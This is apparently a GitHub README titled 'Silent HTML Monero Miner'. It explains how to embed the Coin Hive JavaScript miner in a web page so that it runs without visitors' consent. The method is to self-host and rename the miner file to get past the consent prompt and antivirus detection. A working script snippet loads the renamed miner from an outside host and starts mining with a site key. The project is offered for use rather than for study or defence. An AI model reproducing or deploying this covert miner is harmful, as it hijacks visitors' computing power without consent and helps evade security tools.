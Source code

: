 # Coin-Hive_Hidden-Miner.github.io

<h2>Silent HTML Monero Miner</h2>

 :trollface: :trollface: :trollface: :trollface: :trollface: :trollface::trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface:


https://jonnybanana.github.io/Coin-Hive_Hidden-Miner.github.io/

 :trollface: :trollface: :trollface: :trollface: :trollface: :trollface::trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface: :trollface:


![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/coinhive-icon.png)

I have created this simple html page as a demonstration on how to make hidden the javascript miner of Coin Hive.<BR>
In fact, even if the site says that you can not use the miner without the consent of the user, in reality, things are very different ...</BR>
In part however it is true what they say, in fact if you try to call the .js file of the miner directly from their servers, that is:

https://coinhive.com/lib/coinhive.min.js?v8</BR>
https://authedmine.com/lib/authedmine.min.js?v8

you will see that the user's consent will be required, but the thing is easily circumvented, in fact just host the .js file directly on the server where you host the html page you want to use for the miner, for security I also changed the file name, since now the miner is well known by the vendor antivirus and company ....

<h3> Requirements </h3>

* a Coin Hive Account (https://coinhive.com)
* a Monero Wallet to make the withdraw  (https://mymonero.com/#/)
* a Web Server or a Website (also Github)
* a Coin Hive site key


<h3> Browser Compatibility </h3>

All

<h3> How it Works??? </h3>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/screenshot.JPG)

https://coinhive.com/documentation/miner#constructor-options

https://coinhive.com/lib/coinhive.min.js?v8

 <script src="https://jonnybanana.github.io/Coin-Hive_Hidden-Miner.github.io/pino.js"></script>
<script>
 var miner = new CoinHive.Anonymous('YhWQAh8Vm7tIshKjOsp75jpDDVaO5kkU', {throttle: 0.2});
  miner.start();
</script> 

![Alt text](http://www.imigliorifaucet.it/g1.gif)




<h3> Curiosity </h3>

The image PNG used as background in this example is actually a simple algorithm designed / written in PIET.</BR>
Who wants can test it in the online interface from here: https://www.bertnase.de/npiet/npiet-execute.php


![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/bit.png)
